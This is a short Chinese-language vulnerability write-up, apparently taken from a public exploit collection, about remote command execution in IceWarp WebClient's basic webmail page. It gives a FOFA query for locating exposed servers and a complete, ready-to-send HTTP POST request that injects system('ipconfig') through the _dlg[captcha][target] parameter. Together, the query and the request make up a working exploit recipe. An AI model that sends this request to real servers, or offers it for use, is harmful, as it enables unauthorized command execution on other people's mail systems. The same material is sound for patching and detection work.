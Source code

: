 # IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响

> IceWarp WebClient 

## FOFA

> app="IceWarp-公司产品"

## 漏洞复现

登录页面如下

![1](resource/IceWarp-WebClient-basic远程命令执行漏洞/1.png)

漏洞请求包为

```
POST /webmail/basic/ HTTP/1.1
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```

![2](resource/IceWarp-WebClient-basic远程命令执行漏洞/2.png)